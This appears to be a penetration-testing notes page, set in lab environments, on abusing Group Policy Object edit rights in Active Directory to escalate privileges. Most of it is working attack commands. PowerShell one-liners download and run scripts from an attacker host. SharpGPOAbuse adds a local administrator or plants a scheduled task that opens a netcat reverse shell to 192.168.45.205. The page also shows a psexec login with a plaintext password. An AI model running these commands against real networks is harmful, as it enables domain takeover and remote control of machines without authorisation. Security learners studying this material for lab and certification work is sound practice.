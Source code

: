 # GPO modification attack

## Assumptions

* GPO exists. by Default, Default Domain Policy exits.&#x20;
* GPO ADMIN (group or account) has GenericAll privilege to the GPO.&#x20;
* A compromised account is a member of GPO ADMIN group or has GenericAll or WriteDACL privileges to the GPO Admin account.
* If with Write DACL, update the privilege to Generic All.&#x20;

## Case 1&#x20;

### Enumeration

Here is a vulnerable bloodhound result. A user is a member of GPO Admins group that has GenericWrite as well as WriteDacl and WriteOwner permissions to the GPO. You can edit the GPO.&#x20;

The example below shows the 'Support' account is a member of GPO Admins. In this case, you can use current 'Support' account and its credential to use SharpGPOAbuse.exe to escalate the privilege to the Administrator Groups - by adding the account to the local Administrators group or by sending a reverse shell request back to Kali with Administrator privilege.&#x20;

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Import the modules 
PS> iex (new-Object Net.WebClient).DownloadString('http://192.168.45.205/privesc/PowerView.ps1')|Import-Module PowerView.ps1
PS> iex (new-Object Net.WebClient).DownloadString('http://192.168.45.205/privesc/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# Check the user's permissions. 
PS> Get-NetGPO
PS> Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C04FB984F9 -TargetType User -TargetName anirudh
```
{% endcode %}

### Exploitation

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO. Reference:  [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)\
\
Pre-complied executable: \
[https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.0\_x64/SharpGPOAbuse.exe ](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/SharpGPOAbuse.exe)\
\
There are two options at least to escalate the privilege.&#x20;

#### **1. Add a user to the Local Administrator and run** psexec **(requires the user's password)**

{% code overflow="wrap" %}
```bash
PS> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
PS> gpupdate /force
PS> net grouop anirudh /domain

Kali> psexec.py vault.offsec/anirudh:SecureHM@192.168.51.172
```
{% endcode %}

#### **2. Create a task that runs netcat or powershell reverse shell back to Kali**

{% code overflow="wrap" %}
```bash
Kali> rlwrap nc -nlvp 53

PS> \SharpGPOAbuse.exe --AddComputerTask --TaskName "test" --Author "Administrator" --Command "cmd.exe" --Arguments "/c C:\Users\support\Documents\nc.exe 192.168.45.205 53 -e cmd.exe" --GPOName "Default Domain Policy"
PS> gpupdate /force
```
{% endcode %}

## Case 2

### Enumeration

This example shoes Amelia.Griffiths is a member of Legacy Group, which has a WriteDACL to GPOADM account, which means that Amelia.Griffiths can change the password of GPOADM account. With the GPO ADM account and its new credential, you can run pyGPOAbuse.py to escalate the privilege to the Administrators group by creating a task to add the account to the local Administrators group. Or you can create a shadow account for GPO Admin account instead of having a new credential. With the shadow account, you can run pyGPOAbuse.py to do the same.&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

